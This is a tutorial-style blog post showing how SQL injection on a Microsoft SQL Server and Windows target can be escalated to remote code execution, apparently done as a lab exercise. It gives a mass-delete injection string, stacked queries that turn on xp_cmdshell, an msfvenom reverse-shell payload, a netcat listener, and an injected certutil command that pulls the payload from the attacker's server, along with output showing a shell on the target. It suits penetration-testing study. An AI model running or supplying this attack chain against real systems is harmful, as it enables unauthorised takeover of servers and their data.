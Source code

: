 ```yaml
---
layout: post
title: From SQLi to remote code execution
---
```


SQL injection opens the way to data manipulation and theft, but I recently discovered that it can be an attack vector enabling **remote code execution** (RCE). This highly critical vulnerability gives the attacker access to the entire target machine.

There are multiple variants of how to escalate the attack depending on which Database Management Systems (DBMS) and OS the target uses. For this article, I'll show how an attacker might do it in an application having Microsoft SQL Server as DBMS and running on a Windows machine.

### SQLi
SQL injection (SQLi) is a common web security vulnerability. It allows an attacker to tamper with the SQL statement an application makes to the database.    
SQLi was frequently included in the [OWASP Top 10](https://www.owasptopten.org/).

As a quick refresher on SQLi, I will illustrate a marketplace built with PHP that allows users to delete one of their products. The client will send a `DELETE /products/PROD_ID` request. Server-side, a `$productId` variable is initialized with the value of the `PROD_ID` parameter. It will send this query to the DB:  

```sql
DELETE * FROM products WHERE id = '$productId'; 
```

A malicious user can send this parameter `' OR 1=1--`. If the server does not sanitize and validate the input, it results in the following query. This triggers the deletion of all products:

```sql
DELETE * FROM products WHERE id = '' OR 1=1--';
```

### Store procedures
These are SQL statements that can be reused, think of them as functions in SQL. Many DBMS offer their own stored procedures, Microsoft SQL Server has **xp_cmdshell**.

xp_cmdshell provides a way for the SQL Server to directly execute OS commands and programs. As you can already see, this might pose a security risk.    
For good reasons, this functionality is by default disabled on the production server. But due to specific requirements or just plain misconfigurations, you can sometimes find it enabled.   
In some cases, xp_cmdshell can be enabled manually via `EXEC` queries if the user has one of these attributes:
- *sysadmin* server role
- `ALTER SETTINGS` server-level permission

An attacker might enable it by using [batched (or stacked) queries](https://portswigger.net/web-security/sql-injection/cheat-sheet) and injecting the following configuration options:

```
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```

From the [documentation](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver16<):

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

## Escalating to RCE
Now that the attacker has detected a SQLi vulnerability and can access xp_cmdshell, the following steps are:
1. Create a malicious payload (a **rshell.exe** file) with **MSFVenom**
2. Serve this file
3. Set up a listener for incoming connections from the target machine
4. On the target machine, use the **certutil.exe** Windows program to download this file from our controlled server (from step 2)
5. Execute the **rshell.exe** file on the target machine to create a reverse shell connection back to the listener on our machine.

> [certutil.exe](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil) is a native Windows CLI program part of Certificate Services. It is signed by Microsoft and used to make HTTP/s connections.
>
> [MSFVenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) is a CLI payload generation tool, and it comes with plenty of utilities used in pen testing and ethical hacking. 

### First step
On my machine, I will use MSFVenom to create our payload (change `MY_LISTENER_IP_ADDR` to your own).

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=MY_LISTENER_IP_ADDR LPORT=3333 -f exe -o rshell.exe
```

A new file called **rshell.exe** has been created.

### Second step
Still on my machine, I will start a Python server, in order to server this file:

```shell
python3 -m http.server 8000
```

All files in my current directory are now accessible to download on the target machine.   

### Third step
I set up a listener using the **Netcat** utility, listening for connections from the target machine on port 3333:

```shell
nc -lnvp 3333
```

### Forth and final step
Using the SQLi vector, I can run the **xp_cmdshell** utility to download and execute this file:

```
'; EXEC xp_cmdshell 'certutil -urlcache -f http://MY_SERVER_IP_ADDR:8000/rshel.exe C:\Windows\Temp\rshel.exe'; --
```

I checked my Python server's output:

```shell
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
MACHINE_IP - - [01/Jan/2024 10:15:01] "GET /rshel.exe HTTP/1.1" 200 -
```

Suggesting that the target machine fetched my file.    
Now, if everything goes well, my Netcat listener should have a reverse shell connection:

```
nc -lnvp 3333
listening on [any] 3333 ...
connect to [99.99.99.99] from (UNKNOWN) [MACHINE_IP] 49730
Microsoft Windows [Version 10.0.13143.1731]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt service\mssql$sqlexpress
```

And great success!   
I have obtained RCE, allowing me to run commands on the target machine. I already ran the `whoami` command and got `nt service\mssql$sqlexpress` as a response.

Doing this exercise was fun as it ties the two common vulnerabilities. As SQL injection can escalate to RCE, it vastly increases the attack surface.   
This highlights how dangerous SQLi vulnerabilities are and the importance of patching them.

## Resources
- tryhackme.com
- www.w3schools.com
- portswigger.net
